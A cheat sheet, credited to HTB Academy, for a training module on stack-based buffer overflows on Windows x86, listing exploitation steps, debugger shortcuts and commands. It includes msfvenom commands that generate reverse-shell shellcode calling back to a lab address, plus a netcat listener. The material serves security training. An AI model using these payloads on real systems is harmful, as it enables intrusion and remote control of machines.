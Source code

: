 #####   Cheat Sheet

The cheat sheet is a useful command reference for this module.

## Buffer Overflow Steps

1. Fuzzing Parameters
2. Controlling EIP
3. Identifying Bad Characters
4. Finding a Return Instruction
5. Jumping to Shellcode

## Commands

|Command|Description|
|---|---|
|**General**||
|`xfreerdp /v:<target IP address> /u:htb-student /p:<password>`|RDP to Windows VM|
|`/usr/bin/msf-pattern_create -l 5000`|Create Pattern|
|`/usr/bin/msf-pattern_offset -q 31684630`|Find Pattern Offset|
|`netstat -a \|findstr LISTEN`|List listening ports on a Windows machine|
|`.\nc.exe 127.0.0.1 8888`|Interact with port|
|`msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python' -b '\x00'`|Generate Local Privesc Shellcode|
|`msfvenom -p 'windows/shell_reverse_tcp' LHOST=10.10.15.10 LPORT=1234 -f 'python' -b '\x00\0x0a'`|Generate Reverse Shell Shellcode|
|`nc -lvnp 1234`|Listen for reverse shell|
|**x32dbg**||
|`F3`|Open file|
|`alt+A`|Attach to a process|
|`alt+L`|Go to Logs Tab|
|`alt+E`|Go to Symbols Tab|
|`ctrl+f`|Search for instruction|
|`ctrl+b`|Search for pattern|
|`Search For>All Modules>Command`|Search all loaded modules for instruction|
|`Search For>All Modules>Pattern`|Search all loaded modules for pattern|
|**ERC**||
|`ERC --config SetWorkingDirectory C:\Users\htb-student\Desktop\`|Configure Working Directory|
|`ERC --pattern c 5000`|Create Pattern|
|`ERC --pattern o 1hF0`|Find Pattern Offset|
|`ERC --bytearray`|Generate All Characters Byte Array|
|`ERC --bytearray -bytes 0x00`|Generate Byte Array excluding certain bytes|
|`ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`|Compare bytes in memory to a Byte Array file|
|`ERC --ModuleInfo`|List loaded modules and their memory protections|
|**Python**||
|`python -c "print('A'*10000)"`|Print fuzzing payload|
|`python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"`|Write fuzzing payload to a file|
|`breakpoint()`|Add breakpoint to Python exploit|
|`c`|Continue from breakpoint|

**Credit:** This information was adapted from an excellent guide on [HTB Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86). Be sure to check out the original post for more details.
